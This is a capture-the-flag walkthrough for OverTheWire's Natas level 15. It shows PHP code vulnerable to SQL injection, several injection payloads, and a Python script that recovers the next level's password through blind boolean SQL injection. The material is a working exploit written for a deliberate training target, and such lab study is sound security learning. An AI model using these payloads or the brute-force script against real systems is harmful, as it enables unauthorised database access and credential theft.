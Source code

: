 # Natas 15 -> 16

```
http://natas15.natas.labs.overthewire.org
```

```
Username: natas15
```

This time we have a form that checks the existence of a user, also the source code:

```php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysql_connect('localhost', 'natas15', '<censored>');
    mysql_select_db('natas15', $link);
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? }
```

Let's try again the same sqli from the previous level

```
?username=q" or 1="1
```

Works.  
What about...

```
?username=natas16
```

Yep. ` This user exists.`  
But that's not what we're after. Since we already know that the table `users` has a column `username` and a column `password`, let's try...

```
?username=natas16%22%20AND%20password%20LIKE%20%22%c%&debug=1
```

Great. That prints

```
Executing query: SELECT * from users where username="natas16" AND password LIKE "%c%"
This user exists.
```

So basically we need to *bruteforce* our way into `natas16`.  
Hint: so far the passwords had a length of 32 chars.

```python
#!/usr/bin/env python

import sys
import string
import requests

url = "http://natas15.natas.labs.overthewire.org/"
http_user = "natas15"
http_pass = ""

bf_passwd = ""
bf_dict = string.ascii_letters + string.digits

while len(bf_passwd) != 32:
    for char in bf_dict:
        r = requests.get(url,
                         params={
                             'username': 'natas16" AND password LIKE "{}%'.format(bf_passwd + char)
                         },
                         auth=(http_user, http_pass))
        sys.stdout.write("\rTrying: {} | Password: {}".format(char, bf_passwd))
        sys.stdout.flush()
        if "This user exists." in r.text:
            bf_passwd += char
            sys.stdout.write("\rMatch: {} | Password: {}".format(char, bf_passwd))
            sys.stdout.flush()
            if len(bf_passwd) == 32:
                break

print "\rPassword: {}".format(bf_passwd)
```

* php
* python
* mysql_connect
* sqli

